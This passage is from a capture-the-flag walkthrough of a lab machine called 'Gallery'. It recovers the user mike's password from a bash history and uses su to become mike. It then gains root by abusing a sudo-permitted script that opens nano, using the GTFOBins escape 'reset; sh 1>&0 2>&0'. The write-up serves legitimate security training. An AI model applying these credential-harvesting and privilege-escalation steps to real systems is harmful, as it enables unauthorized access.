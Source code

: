 ```
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```
Lol, we've mike credential by viewing his sudo command! Let's pivot to mike user.
`mike:b3stpassw0rdbr0xx`
```
(remote) www-data@gallery:/var/backups/mike_home_backup$ su -l mike
Password: 
mike@gallery:~$ 
```
Now we can cat the user flag!
```
mike@gallery:~$ cat user.txt
---redacted---
```

> Escalate to the root user

If you run `sudo -l` command, you'll see mike can have sudo permission in `/bin/bash /opt/rootkit.sh`
```
mike@gallery:~$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
Let's see the source code of the rootkit.sh bash script!
```
mike@gallery:~$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Looks like `nano` can be a Privilege Escalation vector!
According to [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo), we can escalate to root user with sudo permission.
```
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
^R^X
reset; sh 1>&0 2>&0
```